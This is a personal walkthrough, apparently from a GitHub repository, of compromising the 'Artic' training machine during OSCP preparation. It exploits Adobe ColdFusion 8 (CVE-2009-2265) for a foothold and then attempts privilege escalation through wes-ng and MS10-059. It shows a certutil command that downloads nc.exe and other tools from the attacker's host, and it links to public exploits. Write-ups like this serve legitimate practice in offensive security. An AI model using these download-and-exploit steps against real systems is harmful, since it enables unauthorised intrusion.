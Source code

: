 # Artic
Name: Artic
Date:  
Difficulty:  Easy
Description:  
Better Description:  
Goals:  OSCP Prep
Learnt:

## Recon

![ping](Screenshots/ping-os-test.png)

There is some kind of anti-bruteforcing in place on the web server. 
Reset the box once to check and the second to continue without bruteforcing anything.
Here are the two directories:
![dirs1](Screenshots/cfdocs-dir.png)

![dirs2](Screenshots/cfide-dir.png)

`CFIDE/wizards/common/_logintowizard.cfm` and `/CFIDE/wizards/common/_authenticatewizarduser.cfm`
The default password `admin` works but so does anything else as templates but neither is linked to actual functionality of the site. Tried default password on the /administrator. Did not work. I also tried injecting a request to wait tcpdump to see if &path= variable was exploitable before dorking exploits for abode fusion 8. 

## Exploit

There is a [metasploit module](https://www.exploit-db.com/exploits/16788) for [CVE-2009-2265](https://nvd.nist.gov/vuln/detail/CVE-2009-2265). 
Before changes:
![metasploit](Screenshots/metasploit-setup.png)

I tried on the second it worked, with the smae settings: 
```bash
set lhost tun0
set rport 8500
```
Due to the OSCP restrictions on Metasploit usage.
Here is a good is a good [python exploit](https://github.com/0xkasra/CVE-2009-2265)
![exploit](Screenshots/exploit.png)

![listen](Screenshots/listener.png)

![foothold](Screenshots/foothold.png)

Included in screenshot are possible privesc through user privileges which I may return once I enumerate the box.

![systeminfo](Screenshots/systeminfo.png)

`C:\Users\tolis\Desktop\user.txt`

## PrivEsc

Used certutil to transfer nc.exe, windowsprivchecker.bat and wes-ng
I tried alot of other things that kicked me off or did not run in either /runtime/bin and /users/tolis


```powershell
certutil.exe -urlcache -split -f "http://$IP/$tools"
```

Basically I would have to blow my metasploit on this machine.
Before reading a writeup to the walkthrough the same process I will redo the metasploit version with the post module as meterpreter just seems although a good way to end in one usage, I am at the PrivEsc phase. Plus I have not use it enough so far. Even the post module did not work. Then meterpreter did not work. I research ways to host files on windows as it seems like a hobby at this point finding and archiving every possible way to transfer files. I ended up copying and pasting into a systeminfo.txt file to this directory. Wesng works, but does not find the intend route. 

```bash
./wes.py --update
./wes.py systeminfo.txt > wesng-out.txt
```
There is a kernel exploit for the cpu that has metasploit module to it. I tried that did not work as well doing it manually compiling it, but I could not finder one of the headers. Write ups suggest a pre-compiled binary. That seems really stupid. There is metasploit module for this so this machine is basically goodbye your metasploit usage in the exam machines given time constraints. 

[manual](https://www.exploit-db.com/exploits/15589) Seems like there are errors in the script.

At this point after multiple days trying to crack this. I revert this to a walkthrough for the remaining part.
From a multitude of writeups that I have then read and watched, either its through metasploit... or a precompiled binary from github...
I will return after complete all the others to retry without the precompiled binary. 
MS10-059
